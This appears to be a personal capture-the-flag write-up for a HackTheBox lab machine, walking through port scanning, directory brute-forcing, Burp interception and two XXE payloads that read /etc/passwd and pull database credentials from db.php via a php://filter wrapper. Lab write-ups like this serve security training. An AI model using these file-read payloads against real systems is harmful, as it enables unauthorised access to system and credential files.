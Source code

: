 HTB - Bughunter (easy)
**bug**: xxe

**nmap**
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to
https://rhost/portal.php
check sources
click 
https://rhost/log_submit.php
open burp
capture request on submit
you can see POST request to /tracker_diRPrOOf314.php
check data to inspector
the data is base64 and url encoded 

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**
capture POST request 
https://rhost/tracker_diRPrOOf314.php
you can see XML format being rendered in frontend

**(encoding)** use Hackverter ext on burp suite
select Encode tab
select urlencode and base64


**sensitive file read XXE**
change the requested XML with this edited request

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering**
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal

echo "the td data type shit" | base64 -d
